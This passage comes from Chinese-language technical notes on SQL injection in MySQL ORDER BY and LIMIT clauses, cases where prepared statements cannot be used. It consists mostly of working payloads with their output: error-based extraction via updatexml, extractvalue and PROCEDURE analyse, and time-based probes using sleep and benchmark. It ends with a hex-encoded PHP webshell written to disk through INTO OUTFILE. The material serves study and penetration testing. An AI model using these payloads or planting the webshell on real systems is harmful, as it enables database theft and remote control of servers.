 
order by注入检测 - 基于报错的注入
```
# 报错方式1
mysql> select aid,adenname from sea_myad order by updatexml(1,if(1=1,user(),2),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhost'

# 报错方式2
mysql> select aid,adenname from sea_myad order by extractvalue(1,if(1=1,user(),2));
ERROR 1105 (HY000): XPATH syntax error: '@localhost'
```

order by注入检测 - 基于时间的注入
```
# 有几条记录 就延时几秒
# 记录很多的情况下 不能使用这种方式
mysql> select aid,adenname from sea_myad order by if(1=1,sleep(1),2);
```


#### 无法使用"预编译语句"的情况 - `limit`子句

* MySQL的`limit`子句注入
  * 漏洞场景 - MySQL中 当`order by`之后跟了`LIMIT`即二者一起使用时,注入点在`limit`子句之后的位置,该场景无法使用`union`语句进行联合查询.
  * 实际案例 - `SELECT freld FROM table WHERE id>0 ORDER BY id LIMIT injection_point`
  * 利用条件 -  5.0.0<MySQL版本<5.6.6   (MySQL版本>=5.7 无法利用. 因为`analyse()`的两个参数都只能为`uint`类型)

```
# MySQL limit子句注入 利用方式1 - 基于报错的注入
# limit之后可以跟`analyse()`函数
# 报错函数 extractvalue()等

mysql> SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1
       procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.5.41-0ubuntu0.14.04.1'
```

```
# MySQL limit子句注入 利用方式2 - 基于时间的注入
# limit之后可以跟`analyse()`函数
# 延时函数 实测只能用`benchmark` 而不能用`sleep`

SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1
PROCEDURE analyse((select extractvalue(rand(),
concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

```
# MySQL limit子句注入 利用方式3 - 写入文件
# 如果权限足够 可在`limit`之后跟`into`写入文件 得到webshell

# Hex <-> ASCII
# 3c3f7068702061737365727428245f504f53545b6173617361735d293b3f3e <-> <?php assert($_POST[asasas]);?>

SELECT 1 from mysql.user order by 1 limit 0,1 into outfile '/tmp/s.php' LINES TERMINATED BY 0x3c3f7068702061737365727428245f504f53545b6173617361735d293b3f3e;
```
